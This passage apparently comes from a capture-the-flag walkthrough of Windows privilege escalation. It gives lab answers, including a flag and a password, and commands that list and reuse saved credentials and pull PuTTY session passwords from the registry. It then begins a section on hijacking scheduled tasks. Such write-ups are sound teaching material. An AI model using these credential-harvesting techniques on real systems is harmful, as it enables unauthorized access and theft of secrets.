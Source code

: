 ```
![img](/assets/img/wpe03.png)

```
cmdkey /list
runas /savecred /user:admin cmd.exe
```
![img](/assets/img/wpe04.png)
![img](/assets/img/wpe05.png)

Answer : THM{WHAT_IS_MY_PASSWORD}

4. Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?

Answer : CoolPass2021
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
![img](/assets/img/wpe06.png)

---

Task 4  Other Quick Wins
---


Privilege escalation is not always a challenge. Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access. It would help if you considered these to belong more to the realm of CTF events rather than scenarios you will encounter during real penetration testing engagements. However, if none of the previously mentioned methods works, you can always go back to these.



#### Scheduled Tasks
---

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the ```schtasks``` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

#### Command Prompt
```
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use ```icacls```:

#### Command Prompt
```